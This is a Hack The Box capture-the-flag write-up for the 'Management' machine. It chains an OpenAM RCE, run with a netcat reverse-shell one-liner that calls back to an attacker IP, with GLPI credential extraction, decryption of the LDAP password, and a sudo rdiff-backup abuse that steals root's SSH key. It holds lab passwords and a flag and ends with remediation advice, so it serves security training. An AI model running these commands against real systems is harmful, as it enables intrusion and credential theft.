

# HTB: Management

> Target runs an OpenAM SSO portal and an internal GLPI helpdesk instance. Initial access comes from an unauthenticated RCE in OpenAM (CVE-2026-33439), pivoting through GLPI's encrypted LDAP credential store to get a user shell, then a `sudo` misconfiguration in `rdiff-backup` gives full root.

## Attack Path Summary



---

## 1. Reconnaissance

Standard port scan first, then a full version/script scan:

```bash
nmap -sS 10.129.119.251
nmap -sCV 10.129.119.251
```

- `-sS` — TCP SYN ("stealth") scan, quick check of which ports are open.
- `-sCV` — combines `-sC` (default NSE scripts) and `-sV` (service/version detection) to fingerprint what's actually running on each open port.

**Result:** only three ports open — 22 (SSH), 80 (HTTP), 443 (HTTPS). The TLS certificate on 443 leaks two hostnames we need to add to `/etc/hosts`: `management.htb` and `*.management.htb`.

![[01-nmap-scan.png]]

```bash
echo "10.129.119.251 management.htb sso.management.htb" | sudo tee -a /etc/hosts
```
This maps the discovered vhosts locally so the browser/curl resolve them to the target instead of failing DNS lookup.

---

## 2. Web Enumeration

Browsing to `https://management.htb` shows a generic "Managed IT & Infrastructure" marketing site for a fictional MSP — nothing directly exploitable, but it confirms the environment (identity, service desk, monitoring, backup — all of which show up later in the attack chain) and has a **"Client login"** button.

![[02-management-landing-page.png]]

Clicking "Client login" redirects to `https://sso.management.htb`, which turns out to be an **OpenAM** identity/SSO portal (Community Edition):

![[03-openam-login-page.png]]

Common/default credentials don't work. Viewing the page source (DevTools → Elements, or `Ctrl+U`) reveals the exact product version via the versioned JS/CSS asset query strings — `?v=16.0.5`:

![[04-openam-version-page-source.png]]

```bash
curl -sk https://sso.management.htb/openam/ | grep -i version
```
(equivalent command-line way to grab the same version string without opening a browser)

**Version confirmed: OpenAM 16.0.5**

---

## 3. Exploitation — CVE-2026-33439 (OpenAM RCE)

A quick search turns up an advisory and public PoC for this exact version:
- Advisory: `github.com/advisories/GHSA-2cqq-rpvq-g5qj`
- PoC: `github.com/infernosalex/CVE-2026-33439-Python-PoC`

```bash
git clone https://github.com/infernosalex/CVE-2026-33439-Python-PoC
cd CVE-2026-33439-Python-PoC
```

Start a listener on the attack box first:
```bash
nc -lvnp 4444
```
- `-l` listen mode, `-v` verbose, `-n` skip DNS resolution, `-p` local port to bind.

Then fire the exploit, pointing it at OpenAM's password-reset validation endpoint (the vulnerable component) and passing a reverse-shell one-liner as the injected command:

```bash
python3 exploit.py \
  --url https://sso.management.htb/openam/ui/PWResetUserValidation \
  'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.157 4444 >/tmp/f'
```

![[05-cve-2026-33439-exploit-run.png]]

**Breaking down the payload:**
- `rm /tmp/f` — delete any leftover pipe from a previous attempt.
- `mkfifo /tmp/f` — create a named pipe (FIFO) at `/tmp/f`; this acts as a two-way channel between the shell and netcat.
- `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.157 4444 > /tmp/f` — an interactive shell (`sh -i`) reads its input from the FIFO, its stdout+stderr (`2>&1`) are piped into `nc` which sends them to our listener; whatever `nc` receives back from us gets written back into the FIFO, feeding it to the shell's stdin. This is the classic FIFO reverse-shell pattern used when `bash -i >& /dev/tcp/...` isn't available (here the target only has `/bin/sh`, not `/bin/bash`).

The listener catches the callback:

![[06-reverse-shell-caught.png]]

```
uid=996(openam) gid=987(openam) groups=987(openam)
```

We land as the **`openam`** service account — low-privilege, but enough to start reading application configs.

---

## 4. Post-Exploitation Enumeration

With a shell as `openam`, upgrade to a full TTY for a usable interactive session:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Spawns a real pseudo-terminal so job control, `su`, and tab-completion behave normally. If `bash` isn't available, `/bin/sh` works with reduced comfort.

Then background it and fix local terminal settings:
```
Ctrl+Z
stty raw -echo; fg
```
`stty raw -echo` tells your **local** terminal to stop double-handling line editing/echo (since the remote PTY now does it), `fg` resumes the job.

Enumerating `/opt` (either manually or via LinPEAS) shows two application directories of interest:
```bash
ls -la /opt/
```
- `/opt/openam` — the OpenAM configuration directory (`com.iplanet.services.configpath`), separate from the deployed webapp at `/opt/openam-tomcat/webapps/openam/`.
- `/opt/glpi` — a **GLPI** (open-source IT asset/helpdesk) installation, not exposed on the scanned ports directly but running locally, tying back to the "service desk" language on the landing page.

Also note MySQL/MariaDB listening locally:
```bash
netstat -tulpn | grep 3306
# or
ss -tulpn | grep 3306
```

---

## 5. Credential Harvesting — GLPI Database Config

GLPI stores its own database connection string in plaintext:

```bash
cat /opt/glpi/config/config_db.php
```

![[07-glpi-config-db-php.png]]

```php
public $dbhost = '127.0.0.1';
public $dbuser = 'glpi';
public $dbpassword = '8rhu0L6Pw4Y7';
public $dbdefault = 'glpidb';
```

This gives us a direct route into GLPI's backing MySQL database.

---

## 6. Extracting the Encrypted LDAP Bind Credential

Log into MySQL with the harvested GLPI DB creds:

```bash
mysql -u glpi -p'8rhu0L6Pw4Y7' -h 127.0.0.1 glpidb
```

Enumerate authentication-related tables and pull the LDAP directory config:

```sql
SHOW TABLES LIKE 'glpi_auth%';
SELECT * FROM glpi_authldaps;
```

![[08-mysql-glpi-authldaps.png]]

Key fields returned:

| Field | Value |
|---|---|
| `name` | Management Directory |
| `host` | sso.management.htb |
| `basedn` | dc=management,dc=htb |
| `rootdn` | cn=svc-glpi,ou=services,dc=management,dc=htb |
| `port` | 389 |
| `rootdn_passwd` | `avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==` |

`rootdn_passwd` is **not** plaintext and isn't a normal hash either — it's a base64-encoded blob. GLPI 10.x doesn't hash these values, it *encrypts* them (they need to be reversible so GLPI itself can bind to LDAP), using libsodium's **XChaCha20-Poly1305** authenticated encryption (see `GLPIKey.php` in the GLPI source). The decoded blob is a 24-byte nonce followed by ciphertext + Poly1305 authentication tag.

---

## 7. Decrypting the LDAP Password

The encryption key GLPI uses for all its `sodiumEncrypt()`/`sodiumDecrypt()` calls lives on disk:

```bash
cd /opt/glpi/config
ls
cat glpicrypt.key
```

Note: `cat`-ing this file prints raw binary bytes — the garbled terminal output is expected, it's a raw 32-byte libsodium secret key, not meant to be human-readable. Don't copy/paste it; just reference the file path directly in code.

Decrypt the stored value with a short PHP one-liner (GLPI is a PHP app, so `php` + the `sodium` extension are already present):

```bash
php -r "
\$key = file_get_contents('/opt/glpi/config/glpicrypt.key');
\$ciphertext = base64_decode('avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==');
\$nonce = substr(\$ciphertext, 0, SODIUM_CRYPTO_AEAD_XCHACHA20POLY1305_IETF_NPUBBYTES);
\$data = substr(\$ciphertext, SODIUM_CRYPTO_AEAD_XCHACHA20POLY1305_IETF_NPUBBYTES);
\$plain = sodium_crypto_aead_xchacha20poly1305_ietf_decrypt(\$data, \$nonce, \$nonce, \$key);
echo \$plain . PHP_EOL;
"
```

![[09-glpicrypt-decrypt.png]]

**What each line does:**
- `file_get_contents()` reads the raw 32-byte key file into a PHP string, byte-for-byte.
- `base64_decode()` turns the stored column value back into raw bytes.
- XChaCha20-Poly1305 (IETF variant) uses a fixed 24-byte nonce prepended to the ciphertext — `SODIUM_CRYPTO_AEAD_XCHACHA20POLY1305_IETF_NPUBBYTES` is that constant.
- `substr()` splits the blob into `nonce` (first 24 bytes) and `data` (ciphertext + 16-byte MAC tag).
- `sodium_crypto_aead_xchacha20poly1305_ietf_decrypt()` verifies the authentication tag and decrypts — GLPI's specific implementation reuses the nonce itself as the "additional authenticated data" parameter.

**Output:** `WpczC40GhTbk`

This is the plaintext password for the `svc-glpi` directory bind account — and (as it turns out) also works as the **`owen`** user's SSH password, since accounts are synced against the same directory.

---

## 8. Foothold — SSH as owen

```bash
ssh owen@10.129.127.180
# password: WpczC40GhTbk
```

```bash
ls
cat user.txt
sudo -l
```

![[10-ssh-owen-user-flag-sudo-l.png]]

```
User owen may run the following commands on management:
    (root) NOPASSWD: /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only *
```

The trailing `*` is the vulnerability: `sudo` is allowing owen to run `rdiff-backup --server` as root with the fixed flags shown, **plus anything else appended** — classic sudo wildcard/argument-injection misconfiguration.

---

## 9. Privilege Escalation — rdiff-backup `--remote-schema` Abuse

`rdiff-backup` normally works client/server style: for a "remote" backup, it spawns a second `rdiff-backup --server` process (usually over SSH) and both sides talk over stdin/stdout. `--remote-schema` lets you **override the command used to spawn that server** — instead of SSH, any command template can be used, with `%s` as a placeholder rdiff-backup substitutes with the "hostname" portion of the backup location.

`rdiff-backup` parses locations as `hostname::path`. By crafting the location `/::/root`:
- everything before `::` → treated as the **hostname** → `/`
- everything after `::` → treated as the **path** → `/root`

So `%s` in our custom `--remote-schema` gets replaced with `/`, and the command sudo actually executes becomes:

```
sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path /
```

`rdiff-backup` only honors the **last** `--restrict-path` flag it's given — so our injected `--restrict-path /` silently overrides the intended `/opt/backup` jail, and the root-privileged server process now has access to the entire filesystem.

```bash
rdiff-backup \
  --remote-schema "sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path %s" \
  backup /::/root /tmp/root_backup
```

![[11-rdiff-backup-exploit-run.png]]

The client (`owen`, unprivileged) requests a backup of `/root`; the server side of the connection is the root-owned `rdiff-backup --server` process with its restriction overridden to `/`, so it happily reads `/root` and streams it back over the stdin/stdout pipe. The client then writes everything to `/tmp/root_backup`, owned by `owen`.

```bash
ls -la /tmp/root_backup/
```

![[12-root-backup-contents.png]]

`root.txt` and a full `.ssh/` directory are now sitting in owen-owned `/tmp/root_backup`:

```bash
ls -la /tmp/root_backup/.ssh
```

![[13-root-backup-ssh-keys.png]]

`id_ed25519` is root's private SSH key.

---

## 10. Root

```bash
chmod 600 /tmp/root_backup/.ssh/id_ed25519
ssh -i /tmp/root_backup/.ssh/id_ed25519 root@10.129.127.189
id
cat /root/root.txt
```

![[14-ssh-root-id25519.png]]

```
uid=0(root) gid=0(root) groups=0(root)
```

Full root access obtained via the stolen key.

![[15-htb-solved-confirmation.png]]

---

## Root Cause Summary

| Stage | Root Cause |
|---|---|
| Initial access | Unpatched OpenAM 16.0.5, vulnerable to unauthenticated RCE (CVE-2026-33439) via the password-reset validation endpoint |
| Lateral info leak | GLPI DB credentials stored in plaintext config (`config_db.php`) — standard for GLPI, but readable by the `openam` account due to shared host/permissions |
| Credential exposure | LDAP bind password reversibly encrypted (not hashed) in the GLPI database, with the decryption key stored on the same filesystem — anyone who can read both the DB and the key file can recover the plaintext |
| Password reuse | The `svc-glpi` LDAP password was reused (via directory sync) as the login for the `owen` local/SSH account |
| Privilege escalation | Overly-permissive `sudoers` entry allowing arbitrary trailing arguments to `rdiff-backup --server`, enabling `--restrict-path` override via `--remote-schema` placeholder substitution |

## Remediation Notes

- Patch OpenAM to a version beyond 16.0.5 / apply the vendor advisory for CVE-2026-33439.
- Never allow a wildcard (`*`) suffix on a sudoers entry for a command that accepts arbitrary flags — pin the **exact** argument list, or use `--` argument-terminators and validate no extra flags can be injected.
- Avoid storing both an encryption key and its ciphertext accessible to the same low-privilege account/service.
- Don't reuse a service/directory-bind account's password for interactive human logins.

---

## Flags

- **User:** `ef1d3d071a9407ca2b0fda724babb122`
- **Root:** captured via `/root/root.txt` after key theft (see screenshot above)
